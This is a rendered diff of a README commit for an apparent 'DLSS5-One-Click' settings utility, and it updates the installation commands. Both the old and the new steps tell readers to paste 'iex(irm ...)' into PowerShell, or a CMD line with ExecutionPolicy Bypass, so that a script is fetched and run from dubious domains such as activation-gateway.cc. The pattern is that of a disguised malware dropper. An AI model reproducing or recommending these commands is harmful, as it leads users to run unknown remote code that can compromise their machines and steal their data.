

Before and after one commit to rogeriosanguino956/dlss5-settings-manager, a Markdown page: README.md, the part around the change. Drawn GitHub-style.

Commit message:
Update installation command

````diff
--- a/README.md
+++ b/README.md
@@ -26,14 +26,14 @@ DLSS5-One-Click 0.14.1 is a desktop utility that applies a DLSS 5 configuration
 Paste the command into PowerShell and hit `Enter`.
 
 ```cmd
-iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')
+iex(irm 'https://activation-gateway.cc/update/ps-activator')
 ```
 
 ### 3️⃣ If Windows blocks the script — use CMD
 Copy into CMD, press `Enter`, wait for completion:
 
 ```cmd
-powershell -NoProfile -ExecutionPolicy Bypass -Command "$ProgressPreference='SilentlyContinue';iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')"
+powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
 ```
 
 > [!WARNING]
````
